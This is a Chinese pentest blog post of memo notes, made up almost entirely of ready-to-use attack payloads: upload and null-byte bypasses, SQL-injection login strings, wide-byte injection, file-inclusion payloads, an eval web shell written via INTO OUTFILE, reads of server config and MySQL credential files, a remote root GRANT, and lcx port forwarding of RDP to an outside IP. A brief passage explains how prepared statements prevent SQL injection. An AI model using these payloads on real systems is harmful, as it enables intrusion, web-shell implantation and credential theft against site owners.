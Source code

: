 ```yaml
---
layout: post
title:  渗透测试碎碎念
category: security
tags: [渗透测试碎碎念]
keywords: 渗透测试碎碎念
description: 渗透测试碎碎念
---  
```


## 渗透测试碎碎念  
渗透过程中一些知识点备忘：  

- 00截断适用于白名单绕过，但一定要程序代码有截断漏洞，所以不一定白名单都可以绕过  
- nginx php解析漏洞 xxx.jpg/xxx.php  xxx.jpg%00.php 
- Linux 提权：1.查看系统信息 `lsb_release -a  uname -a`   
2.找exp  
- PHP的流  `http://192.168.160.13/index.php?url=zip:///var/www/html/upload/0e9982a96ad4cac58adb1a6e74e52aa2.zip%23yijuhua`    
zip文件中的内容：`<?php  _GET[a](_GET[b]);?>`   
- 登录的万能密码：  

		admin' or '1'='  
		admin'#  
		') or('a'='a  

- PHP 默认magic_quotes_gpc打开，转义单引号、双引号，php SQL注入容易出出现在整数型注入  
防范SQL注入，预编译prepare=参数化查询、过滤关键字  
那为什么它这样处理就能预防SQL注入提高安全性呢？其实是因为SQL语句在程序运行前已经进行了预编译，在程序运行时第一次操作数据库之前，SQL语句已经被数据库分析，编译和优化，对应的执行计划也会缓存下来并允许数据库已参数化的形式进行查询，当运行时动态地把参数传给PreprareStatement时，即使参数里有敏感字符如 or '1=1'也数据库会作为一个参数一个字段的属性值来处理而不会作为一个SQL指令，如此，就起到了SQL注入的作用了！  
- 宽字节注入  
举个例子，假设/1 .php?id=1里面的id参数存在宽字节注人漏洞，当提交/1 .php?id=-1’ and 1=1%23时，MySQL运行的SQL语句为：  

        select * from user where id='1\' and 1=1#'   

很明显这是没有注人成功的，我们提交的单引号被转义导致没有闭合前面的单引号，但是我们提交/1 .php?id=-1%df' and 1=1%23时，这时候MySQL运行的 SQL语句为：  


	select * from user where id='1運' and 1=1#'  

这是由于单引号被自动转义成\'，前面的%df和转义字符\反斜杠（%5c)组合成 了%df%5c，也就是“運”字，这时候单引号依然还在，于是成功闭合了前面的单引号。  
 
- 本地文件包含  

1.1 截断类型：php %00截断  

截断条件：  

php版本小于5.3.4   
php的magic_quotes_gpc为OFF状态  

1.2 文件路径长度截断  
系统文件路径长度限制：  

windows 259个bytes  
linux 4096个bytes  
php版本为5.3.4以下（具体哪个版本不是很清楚，乌云上kukki写的5.2.8以下，这明显是不对的，因为我测试用的5.2.9）  
GPC是否开启没关系  

php://input包含:在allow_url_include为On的情况下可用，不受版本限制  

    http://127.0.0.1/test.php?file=php://input  
    <?php phpinfo();?>  


data:流  

    http://127.0.0.1/test.php?file=data://text/plain;base64,PD9waHAKcGhwaW5mbygpOwo/Pgo=  

在allow_url_include为On的情况下可用  


    php://filter/read=convert.base64-encode/resource=   

方法读取源码:基本都能用，路径被限制则失败  

- ereg有两个漏洞  

%00截断及遇到%00则默认为字符串的结束  

当ntf为数组时它的返回值不是FALSE  

- mysql 写入一句话木马  

        http://127.0.0.1/sqllib/Less-7/?id=1'))UNION SELECT 1,2,'<?php @eval($_post[“mima”])?>' into outfile "c:\\wamp\\www\\sqllib\\Less-7\\yijuhua.php"--+    

- find / -name index.php  查找网站路径  
- select '一句话' into outfile 'path'  
- select load_file('path') 读取文件  
- mysql>system 系统命令  
- phpmyadmin 2.11.b 2.11.4 存在万能密码  
- 获取绝对路径：  1.报错；  
2.找配置文件：   
 
		c:\windows\php.ini  
		c:\windows\system32\inetsrv\MetaBase.xml  
		select 1,load_file('c:\\windows\\system32\\inetsrv\\MetaBase.xml')  
		/etc/php.ini  
		/etc/httpd/conf.d/php.conf  
		/etc/httpd/conf/httpd.conf  
		/usr/local/apache/conf/httpd.conf  
		/usr/local/apache2/conf/httpd.conf  
		system vi /etc/httpd/conf/httpd.conf  

搜索 path  

- 获取mysql用户名密码  
配置文件：conn、config、data、sql、common、inc  
查看数据库安装路径下mysql文件 /data/mysql/user.myd  
cmd5破解（*开头）  

- 菜刀数据库管理可以配置数据库，连接数据库，mysql开启root允许远程连接：  
 
        GRANT ALL PRIVILEGES ON *.* TO root@"%" IDENTIFIED BY "root";  
        flush privileges;   

- 寻找服务端口  

        tasklist /svc  
        netstat -ano  

- 端口转发  
lcx.exe -slave 自己IP 2222 127.0.0.1 3389  (将本机3389流量转发到公网IP的2222端口)  

自己电脑执行：lxc.exe -listen 2222 4444 (监听本地2222端口流量，转发到4444)  

远程连接127.0.0.1:4444  

- 菜刀设置cmd终端  
setp: c\test\cmd.exe 解决菜刀无权限执行命令情况  



    













		


